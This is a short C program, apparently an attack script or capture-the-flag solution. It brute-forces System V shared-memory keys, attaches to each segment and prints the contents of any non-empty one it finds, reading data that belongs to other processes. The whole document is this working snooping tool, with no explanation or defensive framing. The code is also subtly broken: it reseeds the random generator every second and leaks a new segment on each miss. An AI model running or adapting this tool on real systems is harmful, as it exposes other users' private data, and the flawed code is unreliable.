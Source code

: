 ```c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>

#define SHM_SIZE 1024  // Size of the shared memory segment

int main() {
    printf("Brute forcing shared memory addresses...\n");
    while (1) {
        // Step 0: generate random key
        time_t current_time = time(NULL);
        srand((unsigned int)current_time);
        int random = rand();
        key_t SHM_KEY = random % 0xfffff;

        // Step 1: Get shared memory segment ID
        // IPC_CREAT will create the segment if it does not exist.
        int shmid = shmget(SHM_KEY, SHM_SIZE, IPC_CREAT | 0666);  // 0666 grants read and write permission

        if (shmid == -1) {
            perror("shmget failed");
            return 1;
        }

        // Step 2: Attach the shared memory segment to our address space
        char *shm_addr = (char *)shmat(shmid, NULL, 0);  // Attach at any available location

        if (shm_addr == (char *)-1) {
            perror("shmat failed");
            return 1;
        }

        // Check if memory segment is not empty
        if (shm_addr[0] != '\0') {
            // Step 3: Read from the shared memory
            printf("[+] Got a hit at key: 0x%lx\n", (unsigned long)SHM_KEY);
            printf("[+] Reading content: %s\n", shm_addr);

            // Step 4: Detach the shared memory segment when done
            if (shmdt(shm_addr) == -1) {
                perror("shmdt failed");
                return 1;
            }
            break;
        }
    }
    return 0;
}
```

